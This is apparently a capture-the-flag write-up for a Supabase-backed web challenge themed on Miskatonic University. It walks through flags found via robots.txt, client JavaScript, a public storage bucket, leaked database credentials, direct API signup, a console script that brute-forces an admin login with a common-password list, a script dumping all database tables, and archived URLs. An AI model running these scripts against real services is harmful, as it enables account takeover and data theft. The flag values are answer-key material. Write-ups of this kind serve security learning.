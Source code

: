 ```yaml
---
created: 2024-12-09T15:10
updated: 2024-12-15T08:05
points: 450
---
```


## Basics

With just some basic digging we can find two flags.

```txt [robots.txt]
User-agent: *
Disallow: /api/
Disallow: /super-private-do-not-enter/
Allow: /
```

### flag 1

```flag
flag::easy::456e4cf23533dafd6533c4d24d2599adb5e72583
```

```js [page-4b9910aed5976f5d.js]
l.jsx)("div", {
	className: "hidden",
	children: "flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531"
})]
```

### flag 2

```flag
flag::easy::aecd9d79901a1251f845897b310c74b7e71d2531
```

## Allow Signup
Signup doesn't work sadly, even after I patched it to allow any email.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733775042/2024/12/e546bc49ddf87b2d0b2218878c391215.png)

## Leak App

By overriding the source JavaScript, we can leak the variables used in those functions.

At the same time, we also remove the scope on `select *`, maybe it will review more information.

```js [page-4b9910aed5976f5d.js]
(async function() {
	let {data: e, error: s} = await c.from("bulletins").select("*");
	console.log("Database:", c);
	console.log("Bulletin Data:", e);
	s ? console.error("Error fetching bulletins:", s) : t(e)
})()
```

### flag 3
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940127/2024/12/c6d4d63d6af3690db7882c3a2edd94a2.png)

```flag
flag::easy::68e4b805974b53e322e52382e5ce387d1b13f325
```

### Storage Leak
We can see that there is a storage bucket named `university-news`, let's leak it.

```js
let {title: t, children: s, imagePath: i, date: a} = e
  , {data: r} = n().storage.from("university-news").getPublicUrl(i);
```

```js [console]
const {data:files}=await temp1.storage.from("university-news").list('',{
limit: 100,
offset: 0
});
const urls = files.map(e=>temp1.storage.from("university-news").getPublicUrl(e.name).data.publicUrl);
[
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/ancient.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/cthulhu.webp",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/herbert-west.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README%20(1).md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/README.md",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/squid.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/student-campus.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/symposium.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/university-front.jpg",
  "https://ubssibzsnwtwbbvbhbvb.supabase.co/storage/v1/object/public/university-news/wireframe.jpg"
]
```

## Storage Info
We find this inside `README.md` and `README (1).md`.

```
connect to ap-southeast-2 ec2
connect to db postgres.kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"

connect to ap-southeast-2 ec2
connect to db as cultist on project kwhiugfxfqtfldzjaunl on ap-southeast-2 pooler using password "allhailcthulhuthegreatdreamer"
```

Welp, can't connect to them due to IP restrictions.

## Signup Attempt 2

Ok, since sign up via UI doesn't work, I shall just call the methods directly.

```js [console]
console.log(await temp2.auth.signUp({
  email: 'me@gmail.com',
  password: 'password',
}));
```

Huh it works, I got an email and can login now.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733940850/2024/12/30a1e0c964e8b646d241e724c1e900be.png)
### flag 4

```flag
flag::easy::4a7314c446cfb28b31118bc606a82627ac18779e
```

## Sign In as Admin

On the site we can find a email `herbert.west@miskatonicuniversity.us`, let's try to login as that with 10k passwords.

```js [console]
const passwords = (await fetch("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10k-most-common.txt").then(r=>r.text())).split("\n");
const sleep = ms => new Promise(r => setTimeout(r, ms));
for(let i=0;i<passwords.length;){
    console.log("trying",i);
    const {data, error}=await temp1.auth.signInWithPassword({email:"herbert.west@miskatonicuniversity.us", password:passwords[i]});
    if(error) {
        if(error.message==="Request rate limit reached"){
            await sleep(500);
            continue
        } else {i++;continue}
    }
    console.log("yay",data)
    break;
}
```

## Leak all Tables

```js [console]
const tables = (await temp1.schema("information_schema").from("tables").select("*")).data;
for(let table of tables){
    const {data, error} = await temp1.schema(table.table_schema).from(table.table_name).select("*");
    if(error)continue;
    console.log("======",table.table_schema,".",table.table_name,"=======");
    console.table(data);
}
```

### `public.staff`

| (index) | id  | first_name  | last_name  | email                                                          |
| ------- | --- | ----------- | ---------- | -------------------------------------------------------------- |
| 0       | 1   | 'Herbert'   | 'West'     | 'herbert.west@miskatonicuniversity.us'                         |
| 1       | 2   | 'Henry'     | 'Armitage' | 'henry.armitage@miskatonicuniversity.us'                       |
| 2       | 3   | 'Ferdinand' | 'Ashley'   | 'ferdinand.ashley@miskatonicuniversity.us'                     |
| 3       | 4   | 'Allen'     | 'Halsey'   | 'allen.halsey@miskatonicuniversity.us'                         |
| 4       | 5   | 'Albert'    | 'Wilmarth' | `flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae` |

### flag 5

```flag
flag::intermediate::602c6d77e8294687ceb9608f3df5d2f89adc31ae
```

## DNS
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734027236/2024/12/9bdc4713e9ba3ff531554d9a4ec01d69.png)
### flag 6

```flag5
flag::easy::2c4452b6c23b2be707fcab43689ec06b7a91b6a5
```

## Wayback Machine

[web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey](https://web.archive.org/cdx/search/cdx?url=*.miskatonicuniversity.us&output=text&fl=original&collapse=urlkey)

```
...
https://miskatonicuniversity.us/api/
https://miskatonicuniversity.us/atom.xml
https://miskatonicuniversity.us/even-more-super-private-do-not-enter
https://miskatonicuniversity.us/favicon.ico
https://miskatonicuniversity.us/feed/
https://miskatonicuniversity.us/feeds/all.atom.xml
...
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1734028108/2024/12/e017289da9023035a9e61331ac7f053c.png)

### flag 7

```flag
flag::intermediate::f49ae1ae7e56e8982fd0bb6ffc16c0f3d23a81b3
```
